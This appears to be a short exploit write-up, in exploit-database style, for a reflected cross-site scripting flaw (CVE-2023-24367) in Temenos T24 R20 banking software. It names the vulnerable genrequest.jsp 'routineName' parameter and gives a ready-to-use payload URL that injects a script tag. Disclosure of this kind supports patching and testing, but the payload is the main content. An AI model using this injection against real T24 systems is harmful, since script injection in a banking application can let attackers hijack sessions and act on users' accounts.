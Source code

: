## Exploit Title: Cross Site Scripting in Temenos T24 R20
## Google Dork: N/A
## Exploit Author: Omar Jezi
## Vendor Homepage: [https://www.temenos.com/](https://www.temenos.com/)
## Version: R20
## CVE : CVE-2023-24367

T24 was discovered to contain a cross-site scripting (XSS) vulnerability via genrequest.jsp in "routineName" parameter

payload :

jsps/genrequest.jsp?routineName="><script>alert(1)</script>

![alt text](https://raw.githubusercontent.com/mrojz/T24/main/T24_XSS_POC.png)
